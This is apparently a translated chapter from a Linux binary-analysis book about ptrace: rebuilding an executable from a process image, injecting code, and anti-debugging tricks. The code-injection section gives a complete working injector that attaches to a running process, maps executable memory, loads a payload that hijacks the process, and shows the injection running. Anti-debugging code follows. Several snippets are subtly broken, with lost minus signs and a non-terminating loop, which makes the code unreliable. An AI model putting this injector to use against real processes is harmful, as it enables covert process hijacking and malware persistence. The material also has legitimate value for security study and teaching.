让我们来看看可执行文件的重构：

1.  定位可执行文件（文本段）的基地址。这可以通过解析`/proc/<pid>/maps`来完成：

```
[First line of output from /proc/<pid>/maps file for program 'evil']

00400000-401000 r-xp /home/ryan/evil

```

### 提示

使用`ptrace`的`PTRACE_PEEKTEXT`请求来读取整个文本段。您可以在前面的映射输出中看到文本段的地址范围（标记为`r-xp`）是`0x400000`到`0x401000`，即 4096 字节。因此，这就是文本段的缓冲区大小。由于我们还没有涵盖如何使用`PTRACE_PEEKTEXT`一次读取超过一个长字大小的字，我编写了一个名为`pid_read()`的函数，演示了一个很好的方法。

```
[Source code for pid_read() function]
int pid_read(int pid, void *dst, const void *src, size_t len)
{
  int sz = len / sizeof(void *);
  unsigned char *s = (unsigned char *)src;
  unsigned char *d = (unsigned char *)dst;
  unsigned long word;
  while (sz!=0) {
    word = ptrace(PTRACE_PEEKTEXT, pid, (long *)s, NULL);
    if (word == 1)
    return 1;
    *(long *)d = word;
    s += sizeof(long);
    d += sizeof(long);
  }
  return 0;
}
```

1.  解析`ELF`文件头（例如`Elf64_Ehdr`）以定位程序头表：

```
/* Where buffer is the buffer holding the text segment */
Elf64_Ehdr *ehdr = (Elf64_Ehdr *)buffer;
Elf64_Phdr *phdr = (Elf64_Phdr *)&buffer[ehdr->e_phoff];
```

1.  然后解析程序头表以找到数据段：

```
for (c = 0; c < ehdr>e_phnum; c++)
if (phdr[c].p_type == PT_LOAD && phdr[c].p_offset) {
  dataVaddr = phdr[c].p_vaddr;
  dataSize = phdr[c].p_memsz;
  break;
}
pid_read(pid, databuff, dataVaddr, dataSize);
```

1.  将数据段读入缓冲区，并在其中定位动态段，然后定位 GOT。使用动态段中的`d_tag`来定位 GOT：

### 注意

我们在第二章的*ELF 二进制格式*部分讨论了动态段及其标记值。

```
Elf64_Dyn *dyn;
for (c = 0; c < ehdr->e_phnum; c++) {
  if (phdr[c].p_type == PT_DYNAMIC) {
    dyn = (Elf64_Dyn *)&databuff[phdr[c].p_vaddr – dataAddr];
    break;
  }
  if (dyn) {
    for (c = 0; dyn[c].d_tag != DT_NULL; c++) {
      switch(dyn[c].d_tag) {
        case DT_PLTGOT:
        gotAddr = dyn[i].d_un.d_ptr;
        break;
        case DT_STRTAB:
        /* Get .dynstr info */
        break;
        case DT_SYMTAB:
        /* Get .dynsym info */
        break;
      }
    }
  }
```

1.  一旦找到 GOT，就必须将其恢复到运行时之前的状态。最重要的部分是恢复每个 GOT 条目中原始的 PLT 存根地址，以便懒惰链接在程序运行时起作用。参见第二章的*ELF 动态链接*部分，*ELF 二进制格式*：

```
00000000004003e0 <puts@plt>:
4003e0: ff 25 32 0c 20 00 jmpq *0x200c32(%rip) # 601018 
4003e6: 68 00 00 00 00 pushq $0x0
4003eb: e9 e0 ff ff ff jmpq 4003d0 <_init+0x28>

```

1.  为`puts()`保留的 GOT 条目应该被修补，指向将 GOT 偏移推送到堆栈的 PLT 存根代码。前面的命令中给出了这个地址`0x4003e6`。确定 GOT 到 PLT 条目关系的方法留给读者作为练习。

1.  可选地重构一个段头表。然后将文本段和数据段（以及段头表）写入磁盘。

## 在 32 位测试环境上使用 Quenya 进行进程重构

一个名为`dumpme`的 32 位`ELF`可执行文件简单地打印`You can Dump my segments!`字符串，然后暂停，让我们有时间重构它。

现在，以下代码演示了 Quenya 将进程图像重构为可执行文件：

```
[Quenya v0.1@ELFWorkshop]
rebuild 2497 dumpme.out
[+] Beginning analysis for executable reconstruction of process image (pid: 2497)
[+] Getting Loadable segment info...
[+] Found loadable segments: text segment, data segment
Located PLT GOT Vaddr 0x804a000
Relevant GOT entries begin at 0x804a00c
[+] Resolved PLT: 0x8048336
PLT Entries: 5
Patch #1 [
0xb75f7040] changed to [0x8048346]
Patch #2 [
0xb75a7190] changed to [0x8048356]
Patch #3 [
0x8048366] changed to [0x8048366]
Patch #4 [
0xb755a990] changed to [0x8048376]
[+] Patched GOT with PLT stubs
Successfully rebuilt ELF object from memory
Output executable location: dumpme.out
[Quenya v0.1@ELFWorkshop]
quit
```

在这里，我们演示了输出可执行文件是否正确运行：

```
hacker@ELFWorkshop:~/
workshop/labs/exercise_9$ ./dumpme.out
You can Dump my segments!

```

Quenya 还为可执行文件创建了一个最小的段头表：

```
hacker@ELFWorkshop:~/
workshop/labs/exercise_9$ readelf -S
dumpme.out

```

这里显示了从偏移量`0x1118`开始的七个段头。



Quenya 中用于进程重构的源代码主要位于`rebuild.c`中，Quenya 可以从我的网站[`www.bitlackeys.org/`](http://www.bitlackeys.org/)下载。

# 使用 ptrace 进行代码注入

到目前为止，我们已经研究了一些有趣的`ptrace`用例，包括进程分析和进程镜像重建。`ptrace`的另一个常见用途是向运行中的进程引入新代码并执行它。攻击者通常这样做是为了修改运行中的程序，使其执行其他操作，比如将恶意共享库加载到进程地址空间中。

在 Linux 中，默认的`ptrace()`行为是允许你写入`Using PTRACE_POKETEXT`到不可写的段，比如文本段。这是因为预期调试器需要在代码中插入断点。这对于想要将代码插入内存并执行的黑客来说非常有用。为了演示这一点，我们编写了`code_inject.c`。它附加到一个进程并注入一个 shellcode，将创建一个足够大的匿名内存映射来容纳我们的 payload 可执行文件`payload.c`，然后将其注入到新的内存中并执行。

### 注意

在本章前面提到过，使用`PaX`打补丁的 Linux 内核将不允许`ptrace()`写入不可写的段。这是为了进一步执行内存保护限制。在论文《通过 GOT 污染进行 ELF 运行时感染》中，我已经讨论了通过使用`ptrace`操纵`vsyscall`表来绕过这些限制的方法。

现在，让我们看一个代码示例，我们在运行中的进程中注入一个 shellcode，加载一个外部可执行文件：

```
To compile: gcc code_inject.c o code_inject
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <signal.h>
#include <elf.h>
#include <sys/types.h>
#include <sys/user.h>
#include <sys/stat.h>
#include <sys/ptrace.h>
#include <sys/mman.h>
#define PAGE_ALIGN(x) (x & ~(PAGE_SIZE 1))
#define PAGE_ALIGN_UP(x) (PAGE_ALIGN(x) + PAGE_SIZE)
#define WORD_ALIGN(x) ((x + 7) & ~7)
#define BASE_ADDRESS 0x00100000
typedef struct handle {
  Elf64_Ehdr *ehdr;
  Elf64_Phdr *phdr;
  Elf64_Shdr *shdr;
  uint8_t *mem;
  pid_t pid;
  uint8_t *shellcode;
  char *exec_path;
  uint64_t base;
  uint64_t stack;
  uint64_t entry;
  struct user_regs_struct pt_reg;
} handle_t;

static inline volatile void *
evil_mmap(void *, uint64_t, uint64_t, uint64_t, int64_t, uint64_t)
__attribute__((aligned(8),__always_inline__));
uint64_t injection_code(void *) __attribute__((aligned(8)));
uint64_t get_text_base(pid_t);
int pid_write(int, void *, const void *, size_t);
uint8_t *create_fn_shellcode(void (*fn)(), size_t len);

void *f1 = injection_code;
void *f2 = get_text_base;

static inline volatile long evil_write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_fstat(long fd, struct stat *buf)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $5, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile int evil_open(const char *path, unsigned long flags)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov $2, %%rax\n"
    "syscall" : : "g"(path), "g"(flags));
    asm ("mov %%rax, %0" : "=r"(ret));
  return ret;
}

static inline volatile void * evil_mmap(void *addr, uint64_t len, uint64_t prot, uint64_t flags, int64_t fd, uint64_t off)
{
  long mmap_fd = fd;
  unsigned long mmap_off = off;
  unsigned long mmap_flags = flags;
  unsigned long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov %4, %%r8\n"
    "mov %5, %%r9\n"
    "mov $9, %%rax\n"
    "syscall\n" : : "g"(addr), "g"(len), "g"(prot), "g"(flags),
    "g"(mmap_fd), "g"(mmap_off));
  asm ("mov %%rax, %0" : "=r"(ret));
  return (void *)ret;
}

uint64_t injection_code(void * vaddr)
{
  volatile void *mem;
  mem = evil_mmap(vaddr,8192,
  PROT_READ|PROT_WRITE|PROT_EXEC,
  MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS,1,0);
  __asm__ __volatile__("int3");
}

#define MAX_PATH 512

uint64_t get_text_base(pid_t pid)
{
  char maps[MAX_PATH], line[256];
  char *start, *p;
  FILE *fd;
  int i;
  Elf64_Addr base;
  snprintf(maps, MAX_PATH 1,
  "/proc/%d/maps", pid);
  if ((fd = fopen(maps, "r")) == NULL) {
    fprintf(stderr, "Cannot open %s for reading: %s\n", maps, strerror(errno));
    return 1;
  }
  while (fgets(line, sizeof(line), fd)) {
    if (!strstr(line, "rxp"))
    continue;
    for (i = 0, start = alloca(32), p = line; *p != ''; i++, p++)
    start[i] = *p;

    start[i] = '\0';
    base = strtoul(start, NULL, 16);
    break;
  }
  fclose(fd);
  return base;
}

uint8_t * create_fn_shellcode(void (*fn)(), size_t len)
{
  size_t i;
  uint8_t *shellcode = (uint8_t *)malloc(len);
  uint8_t *p = (uint8_t *)fn;
  for (i = 0; i < len; i++)
  *(shellcode + i) = *p++;
  return shellcode;
}

int pid_read(int pid, void *dst, const void *src, size_t len)
{
  int sz = len / sizeof(void *);
  unsigned char *s = (unsigned char *)src;
  unsigned char *d = (unsigned char *)dst;
  long word;
  while (sz!=0) {
    word = ptrace(PTRACE_PEEKTEXT, pid, s, NULL);
    if (word == 1 && errno) {
      fprintf(stderr, "pid_read failed, pid: %d: %s\n", pid,strerror(errno));
      goto fail;
    }
    *(long *)d = word;
    s += sizeof(long);
    d += sizeof(long);
  }
  return 0;
  fail:
  perror("PTRACE_PEEKTEXT");
  return 1;
}

int pid_write(int pid, void *dest, const void *src, size_t len)
{
  size_t quot = len / sizeof(void *);
  unsigned char *s = (unsigned char *) src;
  unsigned char *d = (unsigned char *) dest;
  while (quot!= 0) {
    if ( ptrace(PTRACE_POKETEXT, pid, d, *(void **)s) == 1)
    goto out_error;
    s += sizeof(void *);
    d += sizeof(void *);
  }
  return 0;
  out_error:
  perror("PTRACE_POKETEXT");
  return 1;
}

int main(int argc, char **argv)
{
  handle_t h;
  unsigned long shellcode_size = f2 f1;
  int i, fd, status;
  uint8_t *executable, *origcode;
  struct stat st;
  Elf64_Ehdr *ehdr;
  if (argc < 3) {
    printf("Usage: %s <pid> <executable>\n", argv[0]);
    exit(1);
  }
  h.pid = atoi(argv[1]);
  h.exec_path = strdup(argv[2]);
  if (ptrace(PTRACE_ATTACH, h.pid) < 0) {
    perror("PTRACE_ATTACH");
    exit(1);
  }
  wait(NULL);
  h.base = get_text_base(h.pid);
  shellcode_size += 8;
  h.shellcode = create_fn_shellcode((void *)&injection_code, shellcode_size);
  origcode = alloca(shellcode_size);
  if (pid_read(h.pid, (void *)origcode, (void *)h.base, shellcode_size) < 0)
  exit(1);
  if (pid_write(h.pid, (void *)h.base, (void *)h.shellcode, shellcode_size) < 0)
  exit(1);
  if (ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(1);
  }
  h.pt_reg.rip = h.base;
  h.pt_reg.rdi = BASE_ADDRESS;
  if (ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    exit(1);
  }
  if (ptrace(PTRACE_CONT, h.pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(1);
  }
  wait(&status);
  if (WSTOPSIG(status) != SIGTRAP) {
    printf("Something went wrong\n");
    exit(1);
  }
  if (pid_write(h.pid, (void *)h.base, (void *)origcode, shellcode_size) < 0)
  exit(1);
  if ((fd = open(h.exec_path, O_RDONLY)) < 0) {
    perror("open");
    exit(1);
  }
  if (fstat(fd, &st) < 0) {
    perror("fstat");
    exit(1);
  }
  executable = malloc(WORD_ALIGN(st.st_size));
  if (read(fd, executable, st.st_size) < 0) {
    perror("read");
    exit(1);
  }
  ehdr = (Elf64_Ehdr *)executable;
  h.entry = ehdr->e_entry;
  close(fd);
  if (pid_write(h.pid, (void *)BASE_ADDRESS, (void *)executable, st.st_size) < 0)
  exit(1);
  if (ptrace(PTRACE_GETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_GETREGS");
    exit(1);
  }
  h.entry = BASE_ADDRESS + h.entry;
  h.pt_reg.rip = h.entry;
  if (ptrace(PTRACE_SETREGS, h.pid, NULL, &h.pt_reg) < 0) {
    perror("PTRACE_SETREGS");
    exit(1);
  }
  if (ptrace(PTRACE_DETACH, h.pid, NULL, NULL) < 0) {
    perror("PTRACE_CONT");
    exit(1);
  }
  wait(NULL);
  exit(0);
}
```

以下是`payload.c`的源代码。它是在不链接`libc`并且使用位置无关代码的情况下编译的：

```
To Compile: gcc -fpic -pie -nostdlib payload.c -o payload

long _write(long fd, char *buf, unsigned long len)
{
  long ret;
  __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov $1, %%rax\n"
    "syscall" : : "g"(fd), "g"(buf), "g"(len));
  asm("mov %%rax, %0" : "=r"(ret));
  return ret;
}

void Exit(long status)
{
  __asm__ volatile("mov %0, %%rdi\n"
  "mov $60, %%rax\n"
  "syscall" : : "r"(status));
}

_start()
{
  _write(1, "I am the payload who has hijacked your process!\n", 48);
  Exit(0);
}
```

# 简单的例子并不总是那么琐碎

尽管我们的代码注入的源代码看起来并不是那么琐碎，但`code_inject.c`源代码是一个稍微简化的真实内存感染器。我这么说是因为它限制了注入位置无关代码，并且将 payload 可执行文件的文本和数据段加载到同一内存区域中。

如果 payload 程序引用了数据段中的任何变量，它们将无法工作，因此在真实场景中，两个段之间必须有适当的页面对齐。在我们的情况下，payload 程序非常基本，只是向终端的标准输出写入一个字符串。在真实场景中，攻击者通常希望保存原始指令指针和寄存器，然后在 shellcode 运行后恢复执行。在我们的情况下，我们只是让 shellcode 打印一个字符串，然后退出整个程序。

大多数黑客将共享库或可重定位代码注入到进程地址空间。将复杂的可执行文件注入到进程地址空间的想法是一种我以前没有见过的技术，除了我自己的实验和实现。

### 注意

在`elfdemon`源代码中可以找到将完整的动态链接可执行文件（类型为`ET_EXEC`）注入到现有进程中而不覆盖主机程序的示例。这个任务有很多挑战，可以在我的一个实验项目中找到，链接如下：

[`www.bitlackeys.org/projects/elfdemon.tgz`](http://www.bitlackeys.org/projects/elfdemon.tgz)

# 演示 code_inject 工具

正如我们所看到的，我们的程序注入并执行了一个创建可执行内存映射的 shellcode，然后注入和执行了 payload 程序：

1.  运行主机程序（你想要感染的程序）：

```
ryan@elfmaster:~$ ./host &
[1] 29656
I am but a simple program, please don't infect me.

```

1.  运行`code_inject`并告诉它将名为 payload 的程序注入到主机进程中：

```
ryan@elfmaster:~$ ./code_inject `pidof host` payload
I am the payload who has hijacked your process!
[1]+ Done ./host

```

你可能已经注意到`code_inject.c`中似乎没有传统的 shellcode（字节码）。这是因为`uint64_t injection_code(void *)`函数就是我们的 shellcode。由于它已经编译成机器指令，我们只需计算其长度并将其地址传递给`pid_write()`，以便将其注入到进程中。在我看来，这比包含字节码数组的常见方法更加优雅。

# 一个 ptrace 反调试技巧

`ptrace`命令可以用作反调试技术。通常，当黑客不希望他们的程序容易被调试时，他们会包含某些反调试技术。在 Linux 中，一种流行的方法是使用`ptrace`和`PTRACE_TRACEME`请求，以便跟踪自身的进程。

请记住，一个进程一次只能有一个跟踪器，因此如果一个进程已经被跟踪，并且调试器尝试使用`ptrace`附加，它会显示`Operation not permitted`。`PTRACE_TRACEME`也可以用来检查您的程序是否已经被调试。您可以使用下一节中的代码来检查这一点。

## 你的程序正在被跟踪吗？

```
ptrace to find out whether your program is already being traced:
```

```
if (ptrace(PTRACE_TRACEME, 0) < 0) {
printf("This process is being debugged!!!\n");
exit(1);
}
```

前面的代码之所以有效，是因为只有在程序已经被跟踪的情况下才会失败。因此，如果`ptrace`使用`PTRACE_TRACEME`返回一个错误值（小于`0`），你可以确定存在调试器，然后退出程序。

### 注意

如果没有调试器存在，那么`PTRACE_TRACEME`将成功，现在程序正在跟踪自身，任何调试器对程序的跟踪尝试都将失败。因此，这是一个不错的反调试措施。

如第一章所示，*Linux 环境及其工具*，`LD_PRELOAD`环境变量可以用来绕过这种反调试措施，通过欺骗程序加载一个什么都不做只返回`0`的假`ptrace`命令，因此不会对调试器产生任何影响。相反，如果一个程序使用`ptrace`反调试技巧而不使用`libc ptrace`包装器，并且创建自己的包装器，那么`LD_PRELOAD`技巧将不起作用。这是因为程序不依赖任何库来访问`ptrace`。

这是一个使用自己的包装器来使用`ptrace`的替代方法。在本例中，我们将使用`x86_64 ptrace`包装器。

```
#define SYS_PTRACE 101
long my_ptrace(long request, long pid, void *addr, void *data)
{
   long ret;
    __asm__ volatile(
    "mov %0, %%rdi\n"
    "mov %1, %%rsi\n"
    "mov %2, %%rdx\n"
    "mov %3, %%r10\n"
    "mov $SYS_PTRACE, %%rax\n"
    "syscall" : : "g"(request), "g"(pid),
    "g"(addr), "g"(data));
    __asm__ volatile("mov %%rax, %0" : "=r"(ret));
    return ret;
}
```

# 总结

在本章中，您了解了`ptrace`系统调用的重要性以及它如何与病毒和内存感染结合使用。另一方面，它是安全研究人员、逆向工程和高级热修补技术的强大工具。

`ptrace`系统调用将在本书的其余部分定期使用。让本章只作为一个入门。

在下一章中，我们将介绍 Linux ELF 病毒感染的激动人心的世界以及病毒创建背后的工程实践。
